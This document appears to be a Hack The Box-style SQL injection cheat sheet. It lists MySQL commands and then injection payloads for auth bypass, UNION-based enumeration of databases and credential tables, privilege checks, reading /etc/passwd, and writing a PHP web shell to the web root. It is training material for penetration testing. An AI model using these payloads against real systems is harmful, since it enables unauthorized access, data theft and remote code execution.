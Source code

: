 ### SQL Injection Fundamentals Cheat Sheet 

---

#### **MySQL Commands**

|Command|Description|
|---|---|
|`mysql -u root -h docker.hackthebox.eu -P 3306 -p`|Login to MySQL database|
|`SHOW DATABASES`|List available databases|
|`USE users`|Switch to a database|

---

#### **Tables**

|Command|Description|
|---|---|
|`CREATE TABLE logins (id INT, ...)`|Add a new table|
|`SHOW TABLES`|List available tables in current database|
|`DESCRIBE logins`|Show table properties and columns|
|`INSERT INTO table_name VALUES (value_1,...)`|Add values to a table|
|`INSERT INTO table_name(column2, ...) VALUES (...)`|Add values to specific columns in a table|
|`UPDATE table_name SET column1=newvalue1 WHERE ...`|Update table values|

---

#### **Columns**

|Command|Description|
|---|---|
|`SELECT * FROM table_name`|Show all columns in a table|
|`SELECT column1, column2 FROM table_name`|Show specific columns in a table|
|`DROP TABLE logins`|Delete a table|
|`ALTER TABLE logins ADD newColumn INT`|Add new column|
|`ALTER TABLE logins RENAME COLUMN ...`|Rename column|
|`ALTER TABLE logins MODIFY oldColumn DATE`|Change column datatype|
|`ALTER TABLE logins DROP oldColumn`|Delete column|

---

#### **Output and Sorting**

|Command|Description|
|---|---|
|`SELECT * FROM logins ORDER BY column_1`|Sort by column|
|`SELECT * FROM logins ORDER BY column_1 DESC`|Sort by column in descending order|
|`SELECT * FROM logins LIMIT 2`|Show the first two results|
|`SELECT * FROM logins LIMIT 1, 2`|Show results starting from index 2|
|`SELECT * FROM table_name WHERE <condition>`|Filter results based on a condition|
|`SELECT * FROM logins WHERE username LIKE ...`|Filter results matching a string pattern|

---

#### **SQL Injection Payloads**

|Payload|Description|
|---|---|
|`admin' or '1'='1`|Basic auth bypass|
|`admin')-- -`|Bypass with comments|

---

#### **Union Injection**

|Payload|Description|
|---|---|
|`' order by 1-- -`|Detect number of columns with `ORDER BY`|
|`cn' UNION select 1,2,3-- -`|Detect number of columns with `UNION`|
|`cn' UNION select 1,@@version,3,4-- -`|Retrieve MySQL version|
|`UNION select username, 2, 3, 4 FROM passwords-- -`|Extract data with UNION|

---

#### **Database Enumeration**

|Payload|Description|
|---|---|
|`SELECT @@version`|Fingerprint MySQL|
|`SELECT SLEEP(5)`|Fingerprint MySQL without output|
|`cn' UNION select 1,database(),2,3-- -`|Get current database name|
|`cn' UNION select 1,schema_name,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -`|List all databases|
|`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev'-- -`|List all tables in a database|
|`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials'-- -`|List all columns in a table|

---

#### **Privileges**

|Payload|Description|
|---|---|
|`cn' UNION SELECT 1, user(), 3, 4-- -`|Find current user|
|`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`|Check if user has admin privileges|
|`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -`|Check accessible directories|

---

#### **File Injection**

|Payload|Description|
|---|---|
|`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`|Read a local file|
|`SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt'`|Write a string to a local file|
|`cn' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -`|Write a PHP web shell|

---

### **Resources**

- [PayloadAllTheThings SQL Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

This cheat sheet summarizes SQL Injection techniques, mitigations, and methods to enumerate or exploit databases effectively.